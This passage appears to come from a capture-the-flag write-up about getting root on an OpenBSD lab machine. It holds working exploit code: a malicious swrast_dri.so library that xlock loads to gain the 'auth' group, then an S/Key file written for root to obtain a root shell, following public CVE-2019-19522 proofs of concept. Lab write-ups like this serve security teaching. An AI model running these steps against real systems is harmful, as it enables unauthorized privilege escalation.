 openkeys$ which xlock | xargs ls -la
-rwxr-sr-x  1 root  auth  3138520 Oct 12  2019 /usr/X11R6/bin/xlock
```

Next, it tries to load the driver `swrast_dri.so` so we'll create a malicious `swrast_dri.c` which executes a shell, we'll take the code from Qualys POC and compile it, and run xlock which triggers our script, resulting in making our user a part of `auth` group:

```shell
openkeys$ cd ~
openkeys$ cat > swrast_dri.c << "EOF"
> #include <paths.h>
> #include <sys/types.h>
> #include <unistd.h>
> static void __attribute__ ((constructor)) _init (void) {
>     gid_t rgid, egid, sgid;
>     if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
>     if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
>     char * const argv[] = { _PATH_KSHELL, NULL };
>     execve(argv[0], argv, NULL);
>     _exit(__LINE__);
> }
> EOF
openkeys$ ls
swrast_dri.c user.txt
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[2] 98977
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root

openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66

openkeys$ id
uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)

```

### Manual Exploitation CVE-2019-19522

Now that we are a member of auth group, we can move ahead exploiting CVE-2019-19522 to gain root:

> If the S/Key or YubiKey authentication type is enabled (they are both installed by default but disabled), then a local attacker can exploit the privileges of the group "auth" to obtain the full privileges of the user "root" (because login_skey and login_yubikey do not verify that the files in /etc/skey and /var/db/yubikey belong to the correct user, and these directories are both writable by the group "auth")

Since the `/etc/skey` directory is writable by `auth` group, following the POC we'll write the config file for root and change permission to 600:

```shell
openkeys$ ls -ld /etc/skey/
drwx-wx--T  2 root  auth  512 Nov 28 18:47 /etc/skey/

openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
```
Next, we clear the environment and set the terminal to run skey and use password `EGG LARD GROW HOG DRAG LAIN` which returns the root shell.
